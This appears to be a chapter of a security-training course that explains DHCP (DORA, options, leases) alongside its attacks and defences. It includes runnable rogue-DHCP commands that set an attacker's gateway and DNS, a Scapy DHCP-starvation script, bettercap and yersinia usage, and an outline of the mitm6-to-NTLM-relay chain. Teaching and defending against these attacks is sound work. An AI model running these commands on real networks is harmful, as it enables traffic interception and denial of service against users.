




This is Chapter 19 of the series. Every device you've watched send packets so far already *had* an IP address, a subnet mask, a gateway and a DNS server. But where did those come from? On virtually every network, they're handed out automatically by **DHCP (Dynamic Host Configuration Protocol)**. DHCP is quietly one of the most security-critical protocols on a LAN, because **whoever controls DHCP controls a client's gateway and DNS** — which means a rogue DHCP server is a one-move man-in-the-middle. This chapter builds DHCP from zero (the DORA handshake, options, leases), then weaponises and defends it: rogue servers, starvation, and DHCP spoofing, ending with the snooping controls that shut them down.

## Why DHCP Exists: Configuration at Scale

Imagine manually setting a unique IP, mask, gateway and DNS on every one of 5,000 laptops, phones and printers — and reclaiming addresses when devices leave. Impossible. **DHCP automates host configuration**: a device joins the network knowing nothing, shouts "can someone configure me?", and a DHCP server leases it an address plus everything it needs to communicate. It's the reason your laptop "just works" on any Wi-Fi.

Crucially, DHCP delivers **four things** a host needs to reach the internet:

1. **IP address** (and subnet mask) — its identity on the network.
2. **Default gateway** — the router to send off-subnet traffic to (Chapter 15).
3. **DNS server(s)** — how to resolve names (Chapter 18).
4. **Lease time** and extras (domain, NTP, etc.).

Look closely at items 2 and 3: **DHCP tells the client who its router and DNS are**. If an attacker answers first with a *malicious* gateway and DNS, the victim will happily route all traffic through the attacker and resolve names using the attacker's server. That single fact is why DHCP is a prime attack surface.

## The DORA Handshake: How a Lease Is Obtained

A client gets its configuration through a four-step exchange, memorised as **DORA**: **D**iscover → **O**ffer → **R**equest → **A**cknowledge. It runs over **UDP** — client on port **68**, server on port **67** — and starts as a **broadcast** because the client has no address yet.



1. **DISCOVER** — the client broadcasts (`src 0.0.0.0:68 → 255.255.255.255:67`) looking for any DHCP server. It has no IP yet, so it must broadcast.
2. **OFFER** — each DHCP server that hears it replies with a proposed address and options. (There can be several servers — the client typically takes the first/best offer.)
3. **REQUEST** — the client broadcasts its acceptance of one specific offer (broadcast so the *other* servers know their offers were declined).
4. **ACK** — the chosen server confirms the lease and sends the full configuration (mask, gateway, DNS, lease time). The client then usually sends a gratuitous ARP to check nobody else is using the address.

The "OFFER is a race" detail is the vulnerability: the client generally accepts the **first** valid offer it receives, so an attacker's rogue server just needs to answer **faster** than the legitimate one.

## DHCP Options and the Packet Format

The configuration data rides in **DHCP options** — tagged fields inside the message. Knowing the common option numbers helps you read captures and craft packets:

| Option | Name | Delivers |
|---|---|---|
| 1 | Subnet Mask | e.g. 255.255.255.0 |
| 3 | Router / Default Gateway | **the gateway** (attack target) |
| 6 | DNS Servers | **the resolvers** (attack target) |
| 15 | Domain Name | e.g. corp.local |
| 51 | Lease Time | seconds until renewal |
| 53 | DHCP Message Type | 1=DISCOVER 2=OFFER 3=REQUEST 5=ACK 6=NAK 7=RELEASE |
| 54 | Server Identifier | which server |
| 66/67 | TFTP server / bootfile | **PXE boot** (juicy: creds/configs) |
| 119/252 | Domain search / WPAD | **proxy auto-config** (MITM via WPAD) |

Options 3 and 6 are the gateway and DNS an attacker overrides. Options 66/67 (PXE/TFTP) can leak boot images and credentials on enterprise networks, and the WPAD option (252) is a classic route to proxy-based MITM. DHCP messages are carried in the older **BOOTP** frame format (fields like `chaddr` = client MAC, `yiaddr` = "your" assigned IP), which you'll see labelled in Wireshark.

## Leases, Renewal, and the Lease Lifecycle

A lease is **temporary** — the server loans an address for a **lease time** (option 51), then expects renewal. The renewal timers:

- **T1 (~50% of lease)** — the client tries to **renew** with the *same* server (unicast REQUEST).
- **T2 (~87.5%)** — if renewal failed, the client **rebinds**, broadcasting to *any* server.
- **Expiry** — if nothing works, the client gives up the address and restarts DORA.



A client can also proactively **RELEASE** an address (option 53=7) it no longer needs. Leases matter for attackers: short leases mean clients re-request often (more chances to race an offer), and lease *starvation* (below) works by grabbing every available address so real clients can't get one.

```bash
# Linux: view / renew your lease
cat /var/lib/dhcp/dhclient.leases         # current lease details
sudo dhclient -r eth0 && sudo dhclient eth0   # release then re-request (fresh DORA)
# Windows equivalents:  ipconfig /release   ;  ipconfig /renew
```

## Attack 1 — Rogue DHCP Server (The Fast-Answer MITM)

The headline DHCP attack: stand up your **own** DHCP server on the LAN and race the legitimate one. Because clients take the first offer, if yours answers faster (or the real server is busy/rebooting), victims accept *your* configuration — with **your machine as their gateway and DNS**. Now you're a full man-in-the-middle: you route their traffic (see it, alter it) and resolve their names (redirect them to phishing/malware).



Tools that automate this (lab/authorized only):

```bash
# Ettercap / bettercap can run DHCP spoofing modules
sudo bettercap -iface eth0
#   set dhcp.spoof.domains example.com
#   dhcp.spoof on
# Or a rogue dnsmasq acting as DHCP + DNS:
sudo dnsmasq -d --interface=eth0 --dhcp-range=192.168.1.100,192.168.1.150,1h \
     --dhcp-option=3,<attacker_ip> --dhcp-option=6,<attacker_ip>
```

Note options **3** (gateway) and **6** (DNS) set to the attacker — the whole attack in two option values. Combined with a rogue DNS server and IP forwarding, it's transparent to the victim.

## Attack 2 — DHCP Starvation

**Starvation** floods the real DHCP server with DISCOVER requests using thousands of **spoofed client MAC addresses**, consuming every address in the pool. Legitimate clients then can't get a lease (a denial of service) — and starvation is frequently the **setup** for a rogue-server attack: knock out the real server, then yours is the only one answering.

```bash
# yersinia: classic DHCP starvation
sudo yersinia -G                 # GUI: DHCP -> "sending DISCOVER packet"
# dhcpstarv / Scapy alternatives exist too
```

```python
# Scapy starvation concept (lab only): spam DISCOVERs with random MACs
from scapy.all import Ether, IP, UDP, BOOTP, DHCP, RandMAC, sendp
for _ in range(500):
    mac = str(RandMAC())
    pkt = (Ether(src=mac, dst="ff:ff:ff:ff:ff:ff")/
           IP(src="0.0.0.0", dst="255.255.255.255")/
           UDP(sport=68, dport=67)/
           BOOTP(chaddr=mac.replace(":",""))/
           DHCP(options=[("message-type","discover"),"end"]))
    sendp(pkt, iface="eth0", verbose=0)
```

## Attack 3 — DHCP Spoofing & Related Abuses

Beyond rogue servers and starvation:

| Attack | Mechanism | Impact |
|---|---|---|
| **DHCP spoofing** | Rogue answers set malicious gateway/DNS/WPAD | Full MITM, DNS redirect, proxy hijack |
| **WPAD injection** | Serve a malicious proxy auto-config via DHCP option 252 | Route victim web traffic through attacker |
| **DHCP option abuse (66/67)** | Point PXE clients at attacker TFTP/bootfile | Deploy malicious boot image; leak configs |
| **DHCP DoS (NAK flood)** | Force NAKs / exhaust server | Clients lose connectivity |
| **Lease hijacking** | Race renewals / spoof server identifier | Steal/redirect a client's config |

The unifying theme: DHCP has **no authentication** — clients trust any server that answers, and servers trust any client that asks. Every attack exploits one side of that trust.

## Defense: DHCP Snooping and Friends

The primary defence is **DHCP snooping**, a switch feature that classifies ports as **trusted** (where the real DHCP server lives) or **untrusted** (everything else, i.e. client ports). Server-to-client messages (OFFER, ACK) are **only allowed from trusted ports** — so a rogue server on a client port is silently dropped. Snooping also builds a **binding table** (MAC ↔ IP ↔ port ↔ VLAN) that other defences reuse:

- **DHCP snooping** — blocks rogue OFFER/ACK from untrusted ports (kills rogue servers).
- **Port security** — limits MACs per port (blunts starvation's spoofed-MAC flood).
- **Dynamic ARP Inspection (DAI)** — uses the snooping binding table to validate ARP (kills ARP spoofing, Chapter 14).
- **IP Source Guard** — uses the binding table to drop packets with spoofed source IPs.



```text
# Conceptual switch config (Cisco-style)
ip dhcp snooping
ip dhcp snooping vlan 10
interface Gi0/1              # uplink to the real DHCP server
 ip dhcp snooping trust
interface range Gi0/2 - 48   # client ports
 ip dhcp snooping limit rate 15
switchport port-security maximum 2
```

Together, DHCP snooping + port security + DAI + IP Source Guard neutralise the entire DHCP/ARP attack family — which is why they're standard in every switch-hardening benchmark.

## Hands-On Lab: Watch and Probe DHCP

### Step 1 — Capture your own DORA

```bash
sudo tcpdump -i eth0 -n 'udp port 67 or udp port 68' -v &
sudo dhclient -r eth0        # release
sudo dhclient eth0           # re-request -> triggers full DORA
sudo pkill tcpdump
```

In Wireshark filter `dhcp` (or `bootp`). You'll see the four messages: **DHCP Discover**, **Offer**, **Request**, **ACK**. Click the ACK and expand **Option: (53) DHCP Message Type = ACK**, then read Options **1** (mask), **3** (router), **6** (DNS), **51** (lease time). Those are literally the four things your host needed to communicate — delivered in one packet.

### Step 2 — Identify the DHCP server on a network

```bash
sudo nmap --script broadcast-dhcp-discover        # ask the network; reveals server + offer
# or read where your lease came from:
grep dhcp-server-identifier /var/lib/dhcp/dhclient.leases
```

`broadcast-dhcp-discover` sends a DISCOVER and shows you the server and the config it offers — useful recon (and a quick way to spot a rogue server offering odd gateway/DNS values).

### Step 3 — Detect a rogue server (blue-team practice)

Run two DHCP responders in a lab (the legit one and a rogue `dnsmasq`), then:

```bash
sudo nmap --script broadcast-dhcp-discover        # two OFFERs = two servers!
# Multiple server identifiers / conflicting gateways = rogue DHCP present
```

Seeing two OFFERs with different gateways is exactly the signal DHCP snooping and monitoring tools alert on.

### Step 4 — Inspect options that enable MITM

In your capture, look for **Option 6 (DNS)** and **Option 3 (Router)**. Imagine those set to an attacker IP — that's the whole rogue-server MITM in one screenshot. If you see **Option 252 (WPAD)**, note it: that's a proxy-hijack vector.

> **Lawful-use reminder** — Rogue DHCP, starvation and spoofing are live attacks that disrupt and intercept real users. Run them only in an isolated lab or an engagement with explicit written authorization.

## Common Pitfalls & How to Overcome Them

- **Confusing DHCP ports.** Server listens on **67**, client on **68**, both UDP. Discover/Request are broadcasts from `0.0.0.0`.
- **Forgetting DHCP is broadcast-based initially.** That's why it works with no prior config — and why it's confined to the local broadcast domain (a **DHCP relay/helper** forwards it across subnets).
- **Assuming one server = safe.** Without snooping, *any* device can answer; the first offer wins, not the "official" one.
- **Overlooking DNS in the attack.** Rogue DHCP's real power is setting **option 6 (DNS)**, not just the gateway — control DNS and you redirect names even over the legit gateway.
- **Ignoring DHCPv6.** IPv6 hosts may autoconfigure via SLAAC/RA or DHCPv6; the **mitm6** attack abuses IPv6 DHCP/DNS on Windows networks and is devastating (below). Don't leave IPv6 unmonitored.
- **Running starvation without a follow-up plan.** Starvation alone is just DoS; its value is enabling the rogue server.

> **Memory hook** — **DORA**: Discover, Offer, Request, Ack. Ports **67 server / 68 client**. The attacker's whole game is **answer first** and set **option 3 (gateway) + option 6 (DNS)** to themselves.

## Real-World Application & Case Studies

- **mitm6 (IPv6 DHCP/DNS takeover)** — one of the most effective *modern* internal attacks: Windows hosts prefer IPv6 and will accept a rogue DHCPv6/DNS, letting an attacker become their DNS server and relay authentication (combined with `ntlmrelayx`) to compromise Active Directory. A staple of real red-team engagements.
- **Rogue DHCP in corporate breaches** — attackers (or careless staff plugging in a home router) hand out wrong configs, causing outages or MITM; DHCP snooping is the standard fix.
- **PXE boot credential theft** — enterprise imaging over DHCP option 66/67 has leaked local-admin credentials embedded in boot images.
- **WPAD MITM** — historically, malicious WPAD (via DHCP or DNS) routed corporate web traffic through attackers; Microsoft hardened it after widespread abuse.

> **Bug Bounty Angle** — DHCP is a **local-network** protocol, so it's out of scope for remote web bounties — but very much in play for **internal pentest, physical/on-site red-team, and IoT programs**, where demonstrating a rogue-DHCP MITM (intercepting a device's cleartext traffic, redirecting its DNS) is concrete, high-impact proof. In **IoT/hardware scopes**, a device that trusts any DHCP server and follows a malicious DNS/gateway is reportable. The transferable, bounty-relevant idea is **mitm6 → NTLM relay → AD compromise**, which appears in internal engagement reports constantly. For pure web programs, redirect effort to Layer 7; keep DHCP for network-scoped work and note WPAD/DNS-redirect as the impact multiplier.

> **CTF Angle** — DHCP surfaces mainly in **network-forensics** challenges: a pcap contains DORA and you're asked for the assigned IP, the DHCP server, the offered DNS, or evidence of a rogue server (two OFFERs / conflicting gateways). Reflexes: filter `dhcp` in Wireshark, read **Option 53** (message type) and **Options 3/6** (gateway/DNS); `tshark -r cap.pcap -Y 'dhcp' -T fields -e dhcp.option.dhcp -e dhcp.option.domain_name_server`. Some lab-style CTFs have you run a rogue server or starvation to redirect a victim to a flag-serving host. Practice: HTB/THM network-analysis rooms and any pcap forensics set that includes DHCP.

## Detection & Defense: Blue-Team View

- **Enable DHCP snooping** on all access switches with the uplink to the real server as the only trusted port — this alone stops rogue servers.
- **Add port security** (rate-limit DHCP, cap MACs per port) to blunt starvation, and **DAI + IP Source Guard** (which reuse the snooping binding table) to stop ARP/IP spoofing.
- **Monitor for multiple DHCP servers** — SIEM/NAC alerts on OFFERs from unexpected sources, conflicting server identifiers, or a sudden burst of DISCOVERs (starvation). `broadcast-dhcp-discover` sweeps and network sensors (Zeek `dhcp.log`) surface rogues.
- **Watch IPv6** — deploy RA Guard / DHCPv6 Guard and monitor for rogue RAs; disable IPv6 if truly unused, or you leave the mitm6 door open.
- **Baseline lease behaviour** — pool exhaustion, abnormal renewal rates, or unknown MACs grabbing many leases are starvation indicators.

The pattern mirrors Layer 2 defence: DHCP has no crypto, so protection is **switch features (snooping/guards) + monitoring for the tell-tale "two servers / MAC flood" signatures**.

## Final Revision / Summary

- **DHCP** auto-configures hosts with **IP, mask, gateway (opt 3), and DNS (opt 6)** — controlling the last two is a MITM.
- The lease is obtained via **DORA**: Discover → Offer → Request → Ack, over **UDP 67 (server) / 68 (client)**, starting as a broadcast. Clients accept the **first offer** — the core weakness.
- **Options** carry the config (1 mask, 3 gateway, 6 DNS, 51 lease, 53 msg-type, 66/67 PXE, 252 WPAD). **Leases** renew at T1 (50%) / T2 (87.5%).
- **Attacks**: **rogue server** (answer first, set attacker gateway/DNS = MITM), **starvation** (flood spoofed-MAC DISCOVERs to exhaust the pool / enable rogue), **spoofing/WPAD/PXE abuse**, and **mitm6** (IPv6 DHCP/DNS → NTLM relay → AD).
- **Defence**: **DHCP snooping** (trusted vs untrusted ports) + **port security** + **DAI** + **IP Source Guard**, plus RA/DHCPv6 Guard for IPv6 and monitoring for multiple servers.
- Tools: `dhclient`/`ipconfig` (lease), `tcpdump`/Wireshark `dhcp`, `nmap --script broadcast-dhcp-discover`, `bettercap`/`dnsmasq`/`yersinia`/Scapy (attacks, lab only).

## Cheat Sheet / Quick Reference

```text
DORA: Discover -> Offer -> Request -> Ack     PORTS: 67 server / 68 client (UDP)
KEY OPTIONS: 1 mask | 3 gateway | 6 DNS | 51 lease | 53 msg-type
             66/67 PXE(TFTP/bootfile) | 252 WPAD
MSG TYPES(opt53): 1 Discover 2 Offer 3 Request 5 ACK 6 NAK 7 Release
LEASE TIMERS: T1 50% renew | T2 87.5% rebind | then expire
ATTACK -> DEFENCE:
  rogue server -> DHCP snooping (trusted ports)
  starvation   -> port-security + rate limit
  ARP/IP spoof -> DAI + IP Source Guard (use snooping binding table)
  mitm6/IPv6   -> RA Guard / DHCPv6 Guard, monitor rogue RAs
```

```bash
# LEASE
sudo dhclient -r eth0 && sudo dhclient eth0     # fresh DORA
cat /var/lib/dhcp/dhclient.leases               # lease details
ipconfig /release  &&  ipconfig /renew          # Windows

# OBSERVE / RECON
sudo tcpdump -i eth0 -n 'udp port 67 or udp port 68' -v
sudo nmap --script broadcast-dhcp-discover      # find DHCP server + offer

# ATTACK (LAB / AUTHORIZED)
sudo dnsmasq -d --interface=eth0 \
  --dhcp-range=192.168.1.100,192.168.1.150,1h \
  --dhcp-option=3,<attacker> --dhcp-option=6,<attacker>   # rogue server
sudo yersinia -G                                # starvation
```

## Practice Labs & Resources

- **TryHackMe — "Network Services", "Layer 2 / DHCP" content** and network-analysis rooms: capture and read DORA, spot rogues.
- **HTB Academy — network traffic analysis modules**: DHCP in real captures.
- **mitm6 + ntlmrelayx labs** (GOAD / "Game of Active Directory", TryHackMe AD rooms): see the modern IPv6-DHCP → AD attack chain end to end.
- **GNS3 / Packet Tracer**: configure a DHCP server, then enable DHCP snooping and watch a rogue server get blocked.
- **dnsmasq / ISC DHCP docs**: build your own server to understand options and leases from the inside.
- **Exercise** — in a lab, capture a clean DORA, then start a rogue `dnsmasq` handing out your gateway/DNS, confirm a victim VM accepts it, then enable DHCP snooping (or a trusted-port rule) and verify the rogue offer is now dropped.

Next we move up to the protocols you'll spend most of your web-hacking life in: **HTTP, HTTPS, TLS/SSL and PKI in practice** — methods, headers, the TLS handshake, certificates and cipher suites, with hands-on `curl` and `openssl`.
